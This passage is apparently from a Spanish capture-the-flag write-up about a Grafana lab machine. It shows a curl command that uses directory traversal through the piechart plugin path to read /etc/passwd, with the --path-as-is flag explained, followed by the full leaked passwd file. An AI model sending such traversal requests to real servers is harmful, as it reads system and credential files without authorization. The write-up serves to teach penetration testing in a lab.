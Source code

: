 Podemos emplear el *PoC* anterior o bien utilizar otras herramientas, como *curl*, para tramitar las peticiones.  En mi caso, usaré la segunda opción. El *script* ofrece un listado de *plugins* existentes. Por ejemplo, escogeré el *piechart*. La petición *curl* quedaría de la siguiente forma:

```bash
curl http://10.10.11.183:3000/public/plugins/piechart/../../../../../../../../../../../../../etc/passwd --path-as-is 
```

El *--path-as-is* de *curl* es para que nos interprete los *../../...* del *directory path traversal*.

El resultado es el archivo *passwd* de la máquina víctima:

```python
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```
